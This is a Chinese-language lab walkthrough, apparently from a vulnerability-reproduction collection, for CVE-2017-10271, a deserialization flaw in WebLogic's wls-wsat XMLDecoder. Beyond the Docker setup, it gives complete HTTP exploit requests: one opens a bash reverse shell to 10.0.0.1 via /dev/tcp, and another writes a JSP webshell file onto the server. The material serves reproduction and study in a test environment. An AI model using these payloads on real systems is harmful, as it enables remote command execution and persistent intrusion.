

# Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

参考链接：

- https://www.exploit-db.com/exploits/43458/
- https://paper.seebug.org/487/
- https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices组件反序列化漏洞分析.md
- http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html

## 环境搭建

启动测试环境：

```
docker-compose up -d
```

等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

## 漏洞复现

发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

成功获取shell：



写入webshell（访问：`http://your-ip:7001/bea_wls_internal/test.jsp`）：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
